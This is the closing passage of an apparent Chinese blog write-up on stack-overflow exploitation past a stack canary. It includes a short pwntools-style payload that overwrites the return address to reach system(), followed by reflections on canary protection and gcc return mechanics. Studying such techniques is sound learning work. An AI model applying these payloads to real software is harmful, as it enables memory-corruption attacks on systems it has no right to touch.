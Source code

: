 ```python

payload = p32(target)*16+p32(canary) + "AAAA" #+ p32(target) + p32(target)# + "AAAA"
io.sendline(payload)

io.recv()
io.recv()
```

经过几次测试，是可以成功执行system的。（成功率大概50% ? XD）

## 总结

主要发挥作用其实还是Canary保护机制。若考虑爆破的成分，如果此程序运行在远程服务器上，比如一个pwn题。那么基本上是不可能完成的。

获取返回地址通过ecx寄存器进行，是gcc4.9之后的新特性，StackOverflow会破坏esp。同样的代码编译成64bit，无论开没开启Canary，结尾都只是简单的通过leave;ret实现的返回。

第一次写这么长的文章，可能会有很多描述不正确的地方。欢迎各位给我纠错。

但这个探索的过程很有趣。
